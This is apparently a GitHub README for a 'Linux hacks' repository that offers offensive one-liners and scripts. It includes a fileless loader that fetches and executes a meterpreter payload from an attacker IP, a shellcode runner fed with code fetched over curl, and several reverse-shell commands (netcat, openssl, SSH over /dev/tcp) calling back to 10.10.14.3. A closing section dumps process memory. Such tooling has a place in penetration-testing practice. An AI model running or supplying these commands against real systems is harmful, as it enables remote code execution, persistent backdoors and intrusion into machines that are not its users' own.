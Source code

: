 # Linux hacks
A collection of mostly security-related hacks for Linux operating systems. It is supposed to show that, while everyone is locking down their PowerShell and .NET in the Windows world, Linux is pretty much an attackers playground and is _not at all a more secure operating system_ (at least not by default).

## [fileless.py](fileless.py)
Uses python to fetch a binary via http(s), write it to an in-memory file and execute it. For example to run the latest version of linpeas with all checks enabled you can just enter the following in any bash-compatible terminal:
```bash
python <(curl -s https://raw.githubusercontent.com/tav-r/Linux-hacks/main/fileless.py) https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh -a
```
of course this is pointless since you could also just run
```bash
bash <(curl -s https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) -a
```
but maybe something like this?
```bash
FORK=1 python <(curl -s http://10.10.14.3/fileless.py) http://10.10.14.3/meterpreter
```

## [shellcode.py](shellcode.py)
Run shellcode from command line. First you need some base64-encoded shellcode:
```bash
nasm -f elf64 -o /tmp/shellcode.o shellcode.asm; ld -o /tmp/shellcode /tmp/shellcode.o; rm /tmp/shellcode.o
printf $(objdump -d /tmp/PIC_binary | egrep '^ ' | cut -f2 | sed -r -e 's/([0-9,a-f]{2})/\\x\1/g' -e 's/ //g' | tr -d '\n') | base64 | tr -d '\n'; echo; rm /tmp/shellcode
```
now we can run it (this simply spawns `/bin/sh`):
```bash
python shellcode.py McBIu9GdlpHQjJf/SPfbU1RfmVJXVF6wOw8F
```
of course we could do some more interesting stuff with this, like for example:
```bash
FORK=1 python <(curl 10.10.14.3/shellcode.py) $(curl --output - 10.10.14.3/shellcode.bin | base64 | tr -d '\n')
```

## fancy reverse shells and backdoors
```bash
# classic
mkfifo /tmp/p;nc 10.10.14.3 8888 </tmp/p | /bin/bash > /tmp/p;rm /tmp/p
# encrypted using openssl cli, handy if netcat not installed. Server has to use something like ncat --ssl -lvp ...
mkfifo /tmp/p;openssl s_client -quiet 10.10.14.3:8443 2>/dev/null < /tmp/p|bash>/tmp/p;rm /tmp/p
# tunneling over SSH (server listening on localhost:8080)
ssh -fN -L48924:127.0.0.1:8080 10.10.14.3;/bin/bash -l > /dev/tcp/localhost/48924 0<&1 2>&1
```

## forensics and reverse engineering
```bash
# dump all process memory including shared libraries etc., copy mapping info and archive everything.
# must be run as root (other users don't seem to be allowed to read memory)
 export PID=107136;export OUTDIR=$(mktemp -d);cat /proc/$PID/maps | cut -d" " -f1 | awk -F'-' '{print "dd if=/proc/$PID/mem of=${OUTDIR}/${PID}_"$1".dump bs=1 skip=$(printf %u 0x"$1") count=$((0x"$2"-0x"$1"))"}' | xargs -I DIFF bash -c "DIFF";cp /proc/$PID/maps $OUTDIR/maps;cd $OUTDIR;ls -1|tar cvzf dump_$PID.tar.gz --files-from=/dev/stdin;rm *.dump maps
```